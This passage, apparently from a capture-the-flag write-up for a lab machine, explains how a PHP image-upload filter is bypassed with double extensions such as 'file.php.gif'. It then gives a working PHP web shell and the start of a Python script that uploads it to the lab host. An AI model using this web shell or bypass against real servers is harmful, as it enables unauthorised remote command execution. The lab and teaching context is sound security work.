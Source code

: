 - https://en.wikipedia.org/wiki/List_of_file_signatures

Next is `filesize`, which is also a PHP function that returns the file's size in bytes. The web shell just needs to be less than ~60KiB.

- https://www.php.net/manual/en/function.filesize.php

Next is `getnameUpload`, which contains the following code in `lib.php`:

```php
function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}
```

This code just takes the user supplied file name and splits it by the `.` delimiter. Then the code returns a modified filename with `_` replaced with `.` and a string containing the rest of the file's extensions combined. Meaning `file.php.gif` will be split  into `file` and `php.gif`. Next is `substr_compare` which just makes sure that the file ends in one of the extensions in `array('.jpg', '.png', '.gif', '.jpeg')`. 

- https://book.hacktricks.xyz/pentesting-web/file-upload
- https://www.hackingarticles.in/comprehensive-guide-on-unrestricted-file-upload/

To abuse this upload vulnerability, the following HTML source is needed:

![html3](./networked/html3.png)

This process can be abused with the following Python to get a web shell:

```python
import io
import requests

PHP = """
<?php
if (isset($_REQUEST['c'])) {
  if (class_exists('ReflectionFunction')) {
    $f = new ReflectionFunction('system');
    $f->invoke($_REQUEST['c']);
  } elseif (function_exists('call_user_func_array')) {
    call_user_func_array('system', array($_REQUEST['c']));
  } elseif (function_exists('call_user_func')) {
    call_user_func('system',$_REQUEST['c']);
  } elseif (function_exists('system')){
    system($_REQUEST['c']);
  }
}
?>
"""

# upload shell
r = requests.post('http://10.10.10.146/upload.php', data={
  'submit': 'ignored',
}, files={
  'myFile': (
    'ignored.php.gif',
```